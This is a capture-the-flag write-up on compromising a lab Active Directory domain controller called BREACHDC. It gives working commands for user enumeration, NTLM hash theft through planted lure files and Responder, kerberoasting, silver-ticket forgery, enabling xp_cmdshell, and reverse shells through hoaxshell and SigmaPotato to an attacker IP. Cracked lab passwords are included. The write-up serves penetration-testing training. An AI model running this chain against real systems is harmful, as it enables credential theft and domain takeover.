# Description
To solve this box we have to steal the NTLM hash of an user using multiple malicious files with the help of `ntlm_theft`. Performing authenticated enumeration, we see that a sql service account is kerberoastable, we create a silver ticket for the administrator user, login as administrator, enable xp_cmdshell, get a reverse shell using hoaxshell (AV will find you) and exploit SeImpersonatePrivilege to get a shell as SYSTEM. Enjoy!

# Information Gathering & Enumeration
Nmap Scan:
```
# Nmap 7.94SVN scan initiated Thu Oct  3 13:02:48 2024 as: nmap -sCV -oN nmap/initial 10.10.99.155
Nmap scan report for 10.10.99.155 (10.10.99.155)
Host is up (0.043s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-03 17:02:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.99.155:1433: 
|     Target_Name: BREACH
|     NetBIOS_Domain_Name: BREACH
|     NetBIOS_Computer_Name: BREACHDC
|     DNS_Domain_Name: breach.vl
|     DNS_Computer_Name: BREACHDC.breach.vl
|     DNS_Tree_Name: breach.vl
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.10.99.155:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-10-03T17:01:41
|_Not valid after:  2054-10-03T17:01:41
|_ssl-date: 2024-10-03T17:03:42+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Not valid before: 2024-10-02T17:00:58
|_Not valid after:  2025-04-03T17:00:58
|_ssl-date: 2024-10-03T17:03:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-10-03T17:03:02+00:00
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-03T17:03:06
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  3 13:03:43 2024 -- 1 IP address (1 host up) scanned in 55.40 seconds
```
Firstly, I found the domain which is `breach.vl` and the DC (Domain Controller) FQDN (Fully-Qualified Domain Name) which is `BREACHDC.breach.vl`.

Starting by enumerating SMB, I can get a null session and list the shares on the domain controller.
```
smbclient -L //BREACHDC.breach.vl
```


I was able to enumerate users on the machine, by performing rid bruteforce using `nxc` and the guest account.
```
nxc smb BREACHDC.breach.vl -u guest -p '' --rid-brute
```


Extract users from the response:
```
cat rid_brute_res.txt | grep -i sidtypeuser | awk '{print $6}' > test.txt
```
In vim:
```
:1,15s/BREACH\\/
```
Final users.txt file:
```
Administrator
Guest
krbtgt
BREACHDC$
Claire.Pope
Julia.Wong
Hilary.Reed
Diana.Pope
Jasmine.Price
George.Williams
Lawrence.Kaur
Jasmine.Slater
Hugh.Watts
Christine.Bruce
svc_mssql
```
Validate the users using `kerbrute`:
```
~/Tools/AD/kerbrute userenum -d breach.vl --dc BREACHDC.breach.vl users.txt
```



`NTLM_THEFT` is a tool that generates different types of hash theft documents. If you can write to an SMB share, always try to use it.
```
python ~/Tools/AD/Sniffing/ntlm_theft/ntlm_theft.py -g all -s 10.8.3.153 -f Paycheck
```
Run responder:
```
> sudo responder  -I tun0 -w -r -d -F -P -v                        
```
First, I tried putting the files inside every writable directory from the `Users` share but no luck.
The directory that gets accessed by the victim is either `software` or `transfer` inside the `share` share because once I started putting the files there, I got the hash.
```
recurse on
prompt off
mput *
```


I wanted to try to relay the hash, but then I noticed that smb signing is enabled so the only thing I can do is to try to crack it.

Crack the hash using `hashcat`:
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
The user flag is inside `transfer/julia.wong/local.txt`.

Retrieve data for bloodhound through `nxc`:
```
nxc ldap 10.10.99.155 -u julia.wong -p 'Computer1' --bloodhound -c All --dns-server 10.10.99.155
```
Remember that port 1433 was present and we know there is a user called `svc_mssql`. 

I tried to look for kerberoastable users, and we could perform kerberoast for `svc_mssql`.
```
impacket-GetUserSPNs -request breach.vl/julia.wong:Computer1 -dc-ip 10.10.99.155
```


Crack the hash using hashcat:
```
hashcat -m 13100 mssql.txt /usr/share/wordlists/rockyou.txt
```
Connect to the SQL Server using `svc_mssql`'s credentials:
```
impacket-mssqlclient breach.vl/svc_mssql:Trustno1@BREACHDC.breach.vl -windows-auth
```
I didn't find anything interesting inside the databases, and I cannot abuse `xp_cmdshell` at the moment.
I own a service account, so using its password, I can create a silver ticket to impersonate the administrator user.

I got the domain sid using bloodhound:



I used md5decrypt.net to encrypt svc_mssql's password in ntlm.

Having the information we need, we can now craft the silver ticket using impacket's `ticketer`:
```
impacket-ticketer -nthash 69596c7aa1e8daee17f8e78870e25a5c -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn MSSQLSvc/breachdc.breach.vl:1433 administrator
```
Import it and connect to the SQLSERVER using the ticket and you will be able to enable `xp_cmdshell`.


Enable xp_cmdshell:
```
SQL (BREACH\Administrator  dbo@master)> EXEC sp_configure 'show advanced options', 1;
[*] INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> RECONFIGURE;
SQL (BREACH\Administrator  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> RECONFIGURE;
```


I tried getting a reverse shell from revshells.com, using a base64 encoded powershell payload but amsi catched it.



I instead used hoaxshell, which still gave me a base64 encoded powershell payload but it worked.
```
python3 hoaxshell.py -s 10.8.3.153
```


The privilege escalation can be performed by abusing `SeImpersonatePrivilege`.

Running `whoami /priv`, I noticed that svc_mssql has that privilege (pretty usual for service accounts).

https://github.com/tylerdotrar/SigmaPotato
Use `SigmaPotato` to get a reverse shell as `SYSTEM`.
```
.\sigma.exe --revshell 10.8.3.153 1337
```



# Resources


